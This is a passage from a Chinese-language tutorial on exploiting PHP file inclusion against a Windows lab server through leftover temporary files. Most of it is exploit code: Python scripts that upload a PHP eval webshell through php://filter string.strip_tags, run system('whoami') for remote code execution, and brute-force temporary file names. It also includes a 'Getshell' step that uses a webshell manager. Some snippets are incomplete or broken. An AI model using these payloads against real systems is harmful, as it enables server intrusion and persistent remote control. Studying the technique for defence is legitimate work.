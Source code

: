```python
url3='http://192.168.68.119/web/fi/index.php?file=C:/Windows/'+data+'.tmp'
data = {
'Qftm':"system('whoami');"
}
r =  requests.post(url=url3,data=data)
print r.content
```

系统EXP利用

针对不同的系统环境运行脚本就可以RCE拿到任意代码执行

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681052474962-42b1c682-708c-4803-a87f-9f979ccc3f10.png#id=RHPzN&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

然后查看服务器上恶意临时文件，确实存在未被删除！！

```perl
http://192.168.68.119/web/fi/dir.php?file=C:/Windows/
```

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681052475430-63fa1114-d70f-456a-b73d-5f5c4721839a.png#id=yNkva&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

Getshell

由于我们上传的恶意临时文件没有被删除，那么就可以使用Webshell管理工具蚁剑对php2EFF.tmp进行包含利用。

```php
C:/Windows/php2EF.tmp  <?php eval($_REQUEST[Qftm])?>
```

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681052475299-474def8f-24ca-4dab-a866-b5519b1f0a73.png#id=ly8fo&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

### 攻击利用-技巧2

暴力破解

假如没有dir.php还能利用吗，答案是可以的，因为我们传入的恶意文件没有被删除，这样我们就可以爆破这个文件的文件名。

在上面的讲述中，我们知道不同的系统默认的临时文件存储路径和方式都不一样

- Linux

Linux临时文件主要存储在/tmp/目录下，格式通常是（/tmp/php[6个随机字符]）

- windows

Windows临时文件主要存储在C:/Windows/目录下，格式通常是（C:/Windows/php[4个随机字符].tmp）

对比Linux和Windows来看，Windows需要破解的位数比Linux少，从而Windows会比Linux破解速度快，位数越长所需要耗费的时间就越大。

**攻击载荷**

编写临时文件生成和暴力破解攻击载荷

```python
#python version 2.7

import requests
from io import BytesIO

files = {
  'file': BytesIO('<?php eval($_REQUEST[Qftm]);')
}
url1 = 'http://192.168.68.119/web/fi/index.php?file=php://filter/string.strip_tags/resource=index.php'
r = requests.post(url=url1, files=files, allow_redirects=False)

########################暴力破解模块########################
url2='http://192.168.68.119/web/fi/index.php?file=C:/Windows/php'+{fuzz}+'.tmp&Qftm=system('whoami');'
data = fuzz
```